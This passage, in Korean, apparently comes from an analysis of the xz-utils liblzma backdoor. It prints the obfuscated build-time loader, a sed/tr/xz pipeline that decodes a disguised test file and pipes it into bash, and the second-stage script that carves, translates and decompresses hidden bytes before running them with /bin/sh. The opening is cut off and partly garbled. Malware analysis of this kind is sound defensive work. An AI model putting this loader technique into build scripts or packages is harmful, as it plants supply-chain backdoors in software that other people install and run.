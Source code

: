 를 포함하기위해 `$builddir/src/liblzma/Makefile`를 수정합니다.

이는

```bash
...
;sed rpath ../../../tests/files/bad-3-corrupt_lzma2.xz
| tr "	 \-_" " 	_\-"
| xz -d
| /bin/bash >/dev/null 2>&1;
...
```

로 끝납니다.

`| bash` 를 나오면 아래와 같은 코드를 생성합니다.

```bash
####Hello####
#��Z�.hj�
eval `grep ^srcdir= config.status`
if test -f ../../config.status;then
eval `grep ^srcdir= ../../config.status`
srcdir="../../$srcdir"
fi
export i="((head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +724)";
(xz -dc $srcdir/tests/files/good-large_compressed.lzma
|eval $i
|tail -c +31265
|tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377")
|xz -F raw --lzma1 -dc
|/bin/sh
####World####
```

난독화 해제 후 이는 첨부된 injected.txt로 나타납니다.

---
